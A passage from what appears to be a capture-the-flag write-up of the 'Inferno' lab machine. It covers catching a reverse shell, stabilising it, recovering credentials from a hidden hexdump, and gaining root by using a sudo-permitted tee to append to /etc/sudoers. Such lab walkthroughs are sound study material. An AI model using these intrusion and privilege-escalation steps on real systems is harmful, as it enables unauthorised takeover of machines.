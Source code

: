 ```
listening on [any] 8889 ...
connect to [10.13.1.12] from (UNKNOWN) [10.10.67.42] 60794
bash: cannot set terminal process group (913): Inappropriate ioctl for device
bash: no job control in this shell
www-data@Inferno:/var/www/html/inferno/components/filemanager$ exit
```
We can workaround this however by stabalizing our shell with /bin/sh instead of /bin/bash as follows
```
python3 -c "import pty;pty.spawn('/bin/sh')"
export TERM=xterm;export SHELL=/bin/sh
ctrl+z
stty raw -echo; fg
```
Now we won't be booted off the system and cant start to finally look around.

#Initial Foothold
We are currently the www-data user however we can access the /home/dante directory however we can read the local.txt flag that is present. So we explore what other files are accessible.
We find several files on the system that we could begin to take a look at but after quickly looking through all of them we find a immediate standout in /home/dante/Downloads/.download.dat which appears to be a hexdump, that when converted contains the following
```
«Or se’ tu quel Virgilio e quella fonte
che spandi di parlar sì largo fiume?»,
rispuos’io lui con vergognosa fronte.

«O de li altri poeti onore e lume,
vagliami ’l lungo studio e ’l grande amore
che m’ha fatto cercar lo tuo volume.

Tu se’ lo mio maestro e ’l mio autore,
tu se’ solo colui da cu’ io tolsi
lo bello stilo che m’ha fatto onore.

Vedi la bestia per cu’ io mi volsi;
aiutami da lei, famoso saggio,
ch’ella mi fa tremar le vene e i polsi».

dante:redacted
```
Looks like some credentials were placed here for dante so lets switch over to dante and get the local.txt flag. We again run into the same problem as before where our bash shell is killed even if we connect over ssh so we just need to stabalize with a /bin/sh shell instead and we can proceed

#Privilege Escalation
```
$ sudo -l
Matching Defaults entries for dante on Inferno:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dante may run the following commands on Inferno:
    (root) NOPASSWD: /usr/bin/tee
```
going to gtfo bins we find the following
```
LFILE=file_to_write
echo DATA | sudo tee -a "$LFILE"
```
so we can peform unrestricted write access so lets put dante in the /etc/sudoers file and allow them to run all commands instead with the following
```
$ echo "%dante ALL=(ALL:ALL) ALL" | sudo tee -a "/etc/sudoers"
%dante ALL=(ALL:ALL) ALL
$ sudo -l
```